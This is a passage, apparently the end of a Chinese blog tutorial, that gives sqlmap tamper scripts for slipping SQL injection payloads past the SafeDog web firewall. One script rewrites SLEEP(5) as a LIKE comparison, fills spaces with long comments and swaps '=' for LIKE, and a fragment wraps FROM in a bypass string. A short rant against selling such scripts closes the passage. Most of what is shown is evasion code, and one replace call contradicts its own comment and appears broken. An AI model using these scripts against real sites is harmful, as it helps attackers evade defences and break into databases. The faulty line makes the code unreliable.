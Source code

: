 ```python
		payload=payload.replace("FROM",bypass_SafeDog_str+"FROM"+bypass_SafeDog_str) # 同样替换
		#print "[+]THE PAYLOAD RUNNING...Bypass safe dog 4.0 apache version ."
		print payload # 输出Payload 
    return payload # 返回Payload
```


```python

#!/usr/bin/env python
import re
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def tamper(payload):
    if payload:
              pass
              payload = payload.replace("SLEEP(5)","\"0\" LikE Sleep(5)") # 将SLEEP(5)替换成"0" LIKE Sleep(5)，因为Sleep()函数执行后会返回0，0等于0就会返回true
       	      payload = payload.replace("","/*FFFFFFFFFFFFFFFFFFFFFFFFF*/") # 将空格替换
              p = re.compile(r'(\d+)=')
              payload=p.sub(r"'\1'LikE ", payload) #将数字附近的=替换成LikE
    return payload # 返回payload
```

## 0x04 最后的吐槽！

看了这么多例子，你是否有所收获呢？

因为在某社区看到有人高价出售tamper、过狗一句话……讲真，我看不起这种行为。

在挖掘防护产品有缺陷的时候请不要感觉自己多么厉害，也许是运气、偶然、实力。

不管以任何方式，都不能忘记初心。

每一个漏洞的公布，都会给这个时代的技术发展画上浓重的一笔。

再此，感谢云锁、安全狗在职的朋友们的鼓励与支持。















